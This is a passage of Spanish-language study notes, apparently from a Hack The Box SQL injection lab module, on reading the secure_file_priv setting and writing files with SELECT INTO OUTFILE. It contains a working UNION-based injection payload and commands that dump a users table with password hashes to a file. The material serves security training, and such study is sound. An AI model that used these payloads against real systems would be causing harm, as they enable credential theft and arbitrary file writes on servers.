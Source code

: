<br>

    cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -

<br>

![](https://academy.hackthebox.com/storage/modules/33/secure_file_priv.jpg)

<br>

Y el resultado muestra que secure_file_priv esta vacio por lo que podemos leer/escribir archivos en cualquier ubicacion.

<br>

## ESCRIBIENDO ARCHIVOS ##

<br>

Ahora que hemos confirmado que nuestro usuario puede escribir en el servidor back-end, intentemos usar la declaracion SELECT .. INTO OUTFILE. La declaracion SELECT INTO OUTFILE se puede usar para escribir datos de consultas seleccionadas en archivos. Esto generalmente lo vamos a usar para exportar datos de tablas.

Para usarlo, podemos agregar INTO OUTFILE '...' despues de nuestra consulta para exportar los resultados al archivo que especificamos. El siguiente ejemplo guarda la salida de la tabla users en la carpeta /tmp/credentials.

<br>

    SELECT * from users INTO OUTFILE '/tmp/credentials';

<br>

Si vamos al servidor back-end y cateamos el archivo, vemos el contenido de esa tabla.

<br>

    xJplz@htb[/htb]$ cat /tmp/credentials

    1       admin   392037dbba51f692776d6cefb6dd546d
    2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f

<br>

Tambien es posible directamente añadir al SELECT cadenas de archivos lo que nos permite escribir archivos arbitrarios en el servidor back-end.

<br>

    SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';

<br>

Cuando nosotros cateamos el archivo, vemos el texto.

<br>

    xJplz@htb[/htb]$ cat /tmp/test.txt
